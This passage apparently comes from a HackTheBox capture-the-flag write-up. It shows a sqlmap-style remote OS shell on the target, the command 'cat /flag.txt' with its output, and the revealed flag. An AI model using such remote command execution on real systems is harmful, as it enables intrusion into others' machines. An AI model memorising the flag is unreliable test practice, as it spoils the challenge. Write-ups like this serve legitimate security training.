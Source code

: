 We can simply read our flag by doing `cat /flag.txt`

```
os-shell> cat /flag.txt
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'HTB{n3v3r_run_db_45_db4}'
```

Flag is `HTB{n3v3r_run_db_45_db4}`

